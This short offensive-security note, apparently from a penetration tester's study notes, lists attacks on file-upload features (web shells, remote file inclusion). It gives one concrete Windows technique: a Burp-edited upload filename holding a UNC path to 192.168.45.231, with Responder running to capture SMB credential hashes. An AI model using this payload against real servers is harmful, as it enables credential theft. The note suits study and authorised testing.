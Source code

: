 
Try:
Shells (PHP, ASPX)
[[Uploading vulnerabilities]]
Remote file inclusion

#### Windows
SMB link: 
upload a file, then change the name in burpsuite to `Content-Disposition: form-data; name="myFile"; filename="\\\\192.168.45.231\\test"` , with Responder running.

